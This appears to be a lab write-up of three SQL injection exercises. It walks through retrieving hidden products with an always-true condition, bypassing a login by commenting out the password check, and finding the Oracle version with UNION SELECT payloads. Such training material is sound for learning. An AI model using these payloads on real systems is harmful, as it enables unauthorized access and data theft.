




# SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data
## Lab Description


The query used by the application is provided in the lab description:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This query retrieves information from the `products` table, specifically selecting products that belong to the `category` with the condition `released = 1`, meaning the products have been released.

To see all products, we need to make this condition `TRUE`.
```sql
Gifts' OR 1=1--
```
The condition `1=1` is always true, and `--` is used to start a comment in SQL, so everything after it is ignored.

# SQL Injection Vulnerability Allowing Login Bypass
## Lab Description


The query used in the lab will look something like:
```sql
SELECT * FROM users WHERE username = 'username' AND password = 'password';
```
I try to inject into the username field with `--` to bypass the `AND password = 'password'` condition.

```sql
WHERE username = 'administrator' --
```

This will result in a query like:
```sql
SELECT * FROM users WHERE username = 'administrator' -- ' AND password = '<PASSWORD>'
```


The final query becomes:
```sql
SELECT * FROM users WHERE username = 'administrator';
```

# SQL Injection Attack: Querying the Database Type and Version on Oracle
## Lab Description


In `Oracle`, every `SELECT` statement must specify a table to select `FROM`. There is a table in Oracle that can be used for this purpose called `dual`. 

There are two different methods to query the database version on Oracle:
`SELECT banner FROM v$version`, `SELECT version FROM v$instance`.

To solve the lab, find the columns containing strings. 
Steps:
- First, determine the number of columns by injecting `' ORDER BY 1--`. Here, 1 is the number of columns. Continue increasing until an error occurs, and the result indicates that there are 2 columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' ORDER BY 2--
  ```
- Next, check which columns contain strings by injecting `' UNION SELECT 'a','a' FROM DUAL--`. both being string columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' UNION SELECT 'a','a' FROM DUAL--
  ```
- Finally, to obtain the version information, inject `' UNION SELECT 'a', banner FROM v$version--`.
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', banner FROM v$version--'
  ```
